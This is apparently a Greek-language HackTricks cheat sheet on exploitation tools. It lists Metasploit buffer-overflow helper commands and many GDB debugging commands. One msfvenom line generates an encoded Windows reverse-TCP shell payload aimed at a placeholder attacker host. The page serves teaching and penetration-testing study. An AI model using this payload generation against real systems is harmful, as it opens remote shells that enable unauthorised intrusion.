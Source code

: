 # Εργαλεία Εκμετάλλευσης

<details><summary><strong>Μάθετε το χάκινγκ στο AWS από το μηδέν μέχρι τον ήρωα με το</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary></details>

## Metasploit
```bash
pattern_create.rb -l 3000   #Length
pattern_offset.rb -l 3000 -q 5f97d534   #Search offset
nasm_shell.rb
nasm> jmp esp   #Get opcodes
msfelfscan -j esi /opt/fusion/bin/level01
```
### Shellcodes

{% code overflow="wrap" %}
```bash
msfvenom /p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> [EXITFUNC=thread] [-e x86/shikata_ga_nai] -b "\x00\x0a\x0d" -f c
```
{% endcode %}

## GDB

### Εγκατάσταση
```bash
apt-get install gdb
```
### Παράμετροι
```bash
-q # No show banner
-x <file> # Auto-execute GDB instructions from here
-p <pid> # Attach to process
```
### Οδηγίες
```bash
run # Execute
start # Start and break in main
n/next/ni # Execute next instruction (no inside)
s/step/si # Execute next instruction
c/continue # Continue until next breakpoint
p system # Find the address of the system function
set $eip = 0x12345678 # Change value of $eip
help # Get help
quit # exit

# Disassemble
disassemble main # Disassemble the function called main
disassemble 0x12345678 # Disassemble taht address
set disassembly-flavor intel # Use intel syntax
set follow-fork-mode child/parent # Follow child/parent process

# Breakpoints
br func # Add breakpoint to function
br *func+23
br *0x12345678
del <NUM> # Delete that number of breakpoint
watch EXPRESSION # Break if the value changes

# info
```